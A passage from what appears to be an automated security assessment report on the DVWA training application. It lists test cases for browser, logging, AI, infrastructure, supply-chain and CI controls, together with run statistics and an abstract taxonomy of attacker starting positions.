
Mode: model. STRIDE: Tampering, Information Disclosure. CWE: CWE-1021, CWE-942, CWE-346.

Objective: Determine whether the browser protections that apply to this application are configured: content security policy, framing, CORS, subresource integrity, cross-site request forgery, and message origins.

Evidence for a control: location of each configured protection.

<a id="tc-mobile-01"></a>
### TC-MOBILE-01: Mobile WebViews and inter-process interfaces do not expose privileged functions

Mode: seeded. STRIDE: Elevation of Privilege. CWE: CWE-749.

Objective: Determine whether mobile WebViews and exported components expose functions that untrusted content or other apps can call.

Evidence for a control: location of the origin restriction or removed export.

<a id="tc-audit-01"></a>
### TC-AUDIT-01: Security-relevant actions are logged, and logs and errors do not leak data

Mode: model. STRIDE: Repudiation, Information Disclosure. CWE: CWE-778, CWE-532, CWE-209.

Objective: Determine whether authentication, authorization failures, and administrative actions are logged, and whether logs and error responses are free of secrets and internal details.

Evidence for a control: location of the log call or error handler.

<a id="tc-avail-01"></a>
### TC-AVAIL-01: Expensive and authentication endpoints are rate-limited and input-driven work is bounded

Mode: model. STRIDE: Denial of Service. CWE: CWE-770, CWE-307, CWE-400.

Objective: Determine whether login, recovery, and expensive endpoints are rate-limited and whether work driven by input has an upper bound.

Evidence for a control: location of the limit.

<a id="tc-logic-01"></a>
### TC-LOGIC-01: Business values and workflow order are decided on the server

Mode: model. STRIDE: Tampering, Elevation of Privilege. CWE: CWE-840, CWE-639.

Objective: Determine whether prices, quantities, balances, and the order of workflow steps are decided on the server and not accepted from the client.

Evidence for a control: location of the server-side computation or state check.

<a id="tc-ai-01"></a>
### TC-AI-01: Untrusted content cannot steer the model into privileged actions

Mode: model. STRIDE: Tampering, Elevation of Privilege. CWE: CWE-1427.

Objective: Determine whether untrusted content that reaches a model prompt can cause privileged actions.

Evidence for a control: location of the control that limits the action regardless of model output.

Not applicable for 4 components: MariaDB database, CI/CD Pipeline, DVWA API service, DVWA web application.

<a id="tc-ai-02"></a>
### TC-AI-02: Model output is validated before it reaches interpreters, browsers, or structured sinks

Mode: seeded. STRIDE: Tampering, Elevation of Privilege. CWE: CWE-94, CWE-79, CWE-20.

Objective: Determine whether model output is validated before it is rendered, executed, or parsed as structured data.

Evidence for a control: location of the output validation or schema check.

Not applicable for 4 components: MariaDB database, CI/CD Pipeline, DVWA API service, DVWA web application.

<a id="tc-ai-03"></a>
### TC-AI-03: Model-selected tools, objects, and destinations are authorized and restricted

Mode: seeded. STRIDE: Elevation of Privilege, Information Disclosure. CWE: CWE-285, CWE-918.

Objective: Determine whether tools, objects, and destinations that a model selects are authorized for the caller and restricted by an allow-list.

Evidence for a control: location of the authorization or allow-list.

Not applicable for 4 components: MariaDB database, CI/CD Pipeline, DVWA API service, DVWA web application.

<a id="tc-ai-04"></a>
### TC-AI-04: Retrieval and memory respect the caller's access

Mode: model. STRIDE: Information Disclosure. CWE: CWE-639, CWE-200.

Objective: Determine whether retrieved documents and stored memories are limited to what the caller may access.

Evidence for a control: location of the access filter.

Not applicable for 4 components: MariaDB database, CI/CD Pipeline, DVWA API service, DVWA web application.

<a id="tc-ai-05"></a>
### TC-AI-05: The model cannot be made to act or disclose beyond what the caller may

Mode: model. STRIDE: Tampering, Information Disclosure, Elevation of Privilege. CWE: .

Objective: Determine whether a caller, or content the model reads, can make this component's language model features perform actions, reveal data or instructions, or grant benefits beyond what the caller may receive, by any path.

Evidence for a control: location of the check that limits the model's actions or output.

Not applicable for 4 components: MariaDB database, CI/CD Pipeline, DVWA API service, DVWA web application.

<a id="tc-infra-01"></a>
### TC-INFRA-01: Containers and pods run with least privilege

Mode: rules. STRIDE: Elevation of Privilege. CWE: CWE-250.

Objective: Determine whether containers and pods run as non-root, without extra capabilities, and with restricted privileges.

Evidence for a control: configuration matching a rule's expected pattern.

Outcome: Finding. 1 of 5 applicable rules violated. Evidenced for 4 of 5 applicable rules.

Rules: IAC-002 (violated), IAC-004 (satisfied), IAC-020 (satisfied), IAC-021 (satisfied), IAC-022 (satisfied), IAC-080 (not applicable), IAC-081 (not applicable), IAC-082 (not applicable), IAC-085 (not applicable)

<a id="tc-infra-02"></a>
### TC-INFRA-02: Data and admin services are not publicly exposed

Mode: rules. STRIDE: Information Disclosure, Elevation of Privilege. CWE: CWE-668.

Objective: Determine whether data stores and administrative services are kept off public networks.

Evidence for a control: configuration matching a rule's expected pattern.

Outcome: Control evidenced. all 1 applicable rules satisfied. Evidenced for 1 of 1 applicable rules.

Rules: IAC-024 (satisfied), IAC-090 (not applicable), IAC-091 (not applicable), IAC-095 (not applicable), IAC-096 (not applicable)

<a id="tc-infra-03"></a>
### TC-INFRA-03: Service identities and cloud permissions follow least privilege

Mode: seeded. STRIDE: Elevation of Privilege. CWE: CWE-269, CWE-250.

Objective: Determine whether service identities and cloud roles have only the permissions their workloads need.

Evidence for a control: location of the scoped permission.

<a id="tc-supply-01"></a>
### TC-SUPPLY-01: Build inputs are pinned and locked

Mode: rules. STRIDE: Tampering. CWE: CWE-829, CWE-494.

Objective: Determine whether base images, actions, and dependencies are pinned and locked.

Evidence for a control: configuration matching a rule's expected pattern.

Outcome: Finding. 4 of 4 applicable rules violated. Evidenced for 0 of 4 applicable rules.

Rules: IAC-001 (violated), IAC-011 (violated), IAC-050 (violated), ARCH-SUPPLY-001 (violated)

<a id="tc-supply-02"></a>
### TC-SUPPLY-02: Dependencies are updated automatically

Mode: rules. STRIDE: Tampering. CWE: CWE-1104.

Objective: Determine whether an update tool covers every dependency ecosystem in use.

Evidence for a control: update configuration covering the ecosystem.

Outcome: Not applicable. no rule of this test case applies to the examined sources. Evidenced for 0 of 0 applicable rules.

Rules: IAC-030 (not applicable), IAC-031 (not applicable), IAC-032 (not applicable), IAC-033 (not applicable), IAC-034 (not applicable), IAC-035 (not applicable)

<a id="tc-supply-03"></a>
### TC-SUPPLY-03: Install and build scripts cannot run untrusted code

Mode: rules. STRIDE: Tampering, Elevation of Privilege. CWE: CWE-829.

Objective: Determine whether install and build steps can run code from unreviewed or unpinned sources.

Evidence for a control: configuration matching a rule's expected pattern.

Outcome: Control evidenced. all 1 applicable rules satisfied. Evidenced for 1 of 1 applicable rules.

Rules: IAC-005 (satisfied), IAC-051 (not applicable)

<a id="tc-supply-04"></a>
### TC-SUPPLY-04: Released artifacts are signed and described by an SBOM

Mode: rules. STRIDE: Tampering. CWE: CWE-494.

Objective: Determine whether released artifacts are signed and accompanied by a software bill of materials.

Evidence for a control: release workflow step that signs or describes the artifact.

Outcome: Finding. 1 of 1 applicable rules violated. Evidenced for 0 of 1 applicable rules.

Rules: IAC-040 (not applicable), IAC-041 (violated)

<a id="tc-ci-01"></a>
### TC-CI-01: Workflows run with least-privilege tokens

Mode: rules. STRIDE: Elevation of Privilege. CWE: CWE-732.

Objective: Determine whether workflows declare minimal token permissions.

Evidence for a control: workflow permissions block.

Outcome: Finding. 1 of 2 applicable rules violated. Evidenced for 1 of 2 applicable rules.

Rules: IAC-010 (violated), IAC-015 (satisfied)

<a id="tc-ci-02"></a>
### TC-CI-02: Untrusted event data and forks cannot execute in privileged workflows

Mode: seeded. STRIDE: Elevation of Privilege, Tampering. CWE: CWE-94, CWE-829.

Objective: Determine whether data from untrusted events and workflows triggered by forks can run with secrets or write permissions.

Evidence for a control: location of the restriction on the trigger or the value.

<a id="tc-devagent-01"></a>
### TC-DEVAGENT-01: Coding agents run sandboxed and with approvals

Mode: rules. STRIDE: Elevation of Privilege. CWE: CWE-250, CWE-693.

Objective: Determine whether coding-agent configuration in the repository keeps agents sandboxed and requires approvals.

Evidence for a control: configuration matching a rule's expected pattern.

Outcome: Control evidenced. all 1 applicable rules satisfied. Evidenced for 1 of 1 applicable rules.

Rules: IAC-060 (not applicable), IAC-061 (not applicable), IAC-063 (not applicable), IAC-064 (not applicable), IAC-066 (not applicable), IAC-067 (not applicable), IAC-068 (not applicable), IAC-071 (satisfied)

<a id="tc-devagent-02"></a>
### TC-DEVAGENT-02: Agent tools, MCP servers, hooks, and permission rules are not auto-trusted or over-broad

Mode: rules. STRIDE: Elevation of Privilege, Tampering. CWE: CWE-250, CWE-829.

Objective: Determine whether agent tools, MCP servers, hooks, and permission rules in the repository are not trusted automatically or granted too broadly.

Evidence for a control: configuration matching a rule's expected pattern.

Outcome: Not applicable. no rule of this test case applies to the examined sources. Evidenced for 0 of 0 applicable rules.

Rules: IAC-062 (not applicable), IAC-065 (not applicable), IAC-069 (not applicable), IAC-070 (not applicable), IAC-072 (not applicable), IAC-073 (not applicable), IAC-074 (not applicable), IAC-075 (not applicable)

---

## Appendix: Run Statistics

| Field | Value |
|----------------------|----------------------|
| Invocation | `/appsec-advisor:appsec-analyzer --hard-budget 30.0 --assessment-depth thorough --trust-mode untrusted` |
| Generated | 2026-10-30 08:13 UTC |
| Mode | full |
| Assessment depth | thorough |
| Analyzer version | 0.1.0a0 (analysis v5) |
| Reasoning models | opus - STRIDE claude-opus-5-5, triage<br/>claude-opus-5-5, merger claude-opus-5-5 |
| Repository | `/home/mrohr/DVWA` |
| Output directory | `/home/mrohr/assessments/DVWA` |
| Wall clock (active) | 35m 55s |
| Agent compute (Σ parallel dispatches) | 48m 54s |

### Per-Stage Breakdown

| Stage | Description | Agent | Model | Duration | Tool calls | Tokens |
|--------|------------------------------------|----------------------|--------|--------|----------|--------|
| 2 | Reconnaissance: recon scanner (1 job, 2<br/>model calls) | `recon_scanner` | - | 0m 18s | 0 | 0 |
| 3 | Architecture: actor discoverer (1 job, 1<br/>model calls) | `actor_discoverer` | - | 0m 07s | 0 | 0 |
| 3 | Architecture: architecture analyst (1 job, 2<br/>model calls) | `architecture_analyst` | - | 0m 48s | 0 | 0 |
| 7 | Trust Boundaries: trust boundary analyst (1<br/>job, 1 model calls) | `trust_boundary_analyst` | - | 0m 28s | 0 | 0 |
| 8 | Controls: control analyst (4 jobs, 6 model<br/>calls) | `control_analyst` | - | 1m 09s | 0 | 0 |
| 9 | Survey: evidence verifier (15 jobs, 19 model<br/>calls) | `evidence_verifier` | - | 5m 51s | 0 | 0 |
| 9 | Survey: stride analyzer (8 jobs, 10 model<br/>calls) | `stride_analyzer` | - | 21m 09s | 0 | 0 |
| 9 | Verify: test case investigator (6 jobs, 9<br/>model calls) | `test_case_investigator` | - | 9m 54s | 0 | 0 |
| 10 | Scan Synthesis: architect reviewer (5 jobs,<br/>7 model calls) | `architect_reviewer` | - | 2m 36s | 0 | 0 |
| 10 | Scan Synthesis: finding combiner (2 jobs, 2<br/>model calls) | `finding_combiner` | - | 0m 56s | 0 | 0 |
| 10 | Scan Synthesis: post stride synthesizer (1<br/>job, 1 model calls) | `post_stride_synthesizer` | - | 0m 09s | 0 | 0 |
| 10 | Scan Synthesis: threat merger (2 jobs, 3<br/>model calls) | `threat_merger` | - | 1m 03s | 0 | 0 |
| 11 | Finalization: abuse case deriver (1 job, 1<br/>model calls) | `abuse_case_deriver` | - | 0m 16s | 0 | 0 |
| 11 | Finalization: abuse case verifier (9 jobs,<br/>21 model calls) | `abuse_case_verifier` | - | 1m 59s | 0 | 0 |
| 11 | Finalization: ms renderer (1 job, 1 model<br/>calls) | `ms_renderer` | - | 0m 25s | 0 | 0 |
| 11 | Finalization: secarch renderer (1 job, 1<br/>model calls) | `secarch_renderer` | - | 1m 38s | 0 | 0 |
| **Total** | - | - | - | **48m 54s** | **0** | **0** |

---

<a id="appendix-a-vektor-taxonomy"></a>
## Appendix A — Attack Vector Taxonomy

This appendix defines the attacker-starting-position labels used in the Top Threats table and throughout [§8 Findings Register](#8-findings-register). Each label answers the question *what does the attacker need before the exploit begins?*

<a id="vektor-internet-anon"></a>
### Internet Anon

**Attacker position:** Unauthenticated attacker from the public internet · **Breach distance:** 1

**Preconditions:**

- Endpoint is reachable from the internet (no IP allowlist, no VPN)
- No authentication middleware blocks the request

**Typical CWEs:** [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [CWE-327](https://cwe.mitre.org/data/definitions/327.html) · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [CWE-918](https://cwe.mitre.org/data/definitions/918.html)

**Typical OWASP Top 10:** A01:2025, A05:2025, A07:2025

<a id="vektor-internet-user"></a>
### Internet User

**Attacker position:** Any authenticated low-privilege user (valid JWT / session) · **Breach distance:** 2

**Preconditions:**

- Attacker has signed up or otherwise obtained a valid user session
- Endpoint is behind auth but not behind role/admin checks

**Typical CWEs:** [CWE-434](https://cwe.mitre.org/data/definitions/434.html) · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [CWE-918](https://cwe.mitre.org/data/definitions/918.html) · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [CWE-287](https://cwe.mitre.org/data/definitions/287.html)

**Typical OWASP Top 10:** A01:2025, A06:2025, A02:2025

<a id="vektor-internet-priv-user"></a>
### Internet Priv User

**Attacker position:** Authenticated admin-level user (JWT with admin role or equivalent) · **Breach distance:** 2

**Preconditions:**

- Attacker holds admin credentials or has elevated privileges
- Endpoint gated on admin role but still exploitable once reached

**Typical CWEs:** [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-94](https://cwe.mitre.org/data/definitions/94.html)

**Typical OWASP Top 10:** A01:2025

<a id="vektor-victim-required"></a>
### Victim-Required

**Attacker position:** Attacker needs victim interaction - social engineering, crafted link, or live session · **Breach distance:** 2

**Preconditions:**

- Victim must click a link, load a page, or have an active session
- Applies to XSS, CSRF, click-jacking, open redirect

**Typical CWEs:** [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [CWE-601](https://cwe.mitre.org/data/definitions/601.html) · [CWE-1021](https://cwe.mitre.org/data/definitions/1021.html)

**Typical OWASP Top 10:** A01:2025, A05:2025

<a id="vektor-build-time"></a>
### Build-Time

**Attacker position:** Attacker controls a build input - CI runner, dependency, base image, or external data fetched during build · **Breach distance:** 3

**Preconditions:**

- Compromise of a dependency, registry, or base image
- OR compromise of a CI runner with write access to artifacts

**Typical CWEs:** [CWE-506](https://cwe.mitre.org/data/definitions/506.html) · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [CWE-1039](https://cwe.mitre.org/data/definitions/1039.html) · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html)

**Typical OWASP Top 10:** A08:2025

<a id="vektor-repo-read"></a>
### Repo-Read

**Attacker position:** Attacker gains read access to source repository (leaked clone, forked fork, insider, compromised developer workstation) · **Breach distance:** 3

**Preconditions:**

- Read access to the source tree at or after commit time
- No runtime exploit needed - the vulnerability is the content of the repo

**Typical CWEs:** [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [CWE-312](https://cwe.mitre.org/data/definitions/312.html) · [CWE-540](https://cwe.mitre.org/data/definitions/540.html)

**Typical OWASP Top 10:** A04:2025, A07:2025

<a id="vektor-n-a"></a>
### Architectural (no runtime entry point)

**Attacker position:** Architectural / meta-finding - no runtime entry point, the finding describes a design defect aggregating multiple code-level findings

**Preconditions:**

- Finding is AF-NNN (architectural) rather than F-NNN (code-level)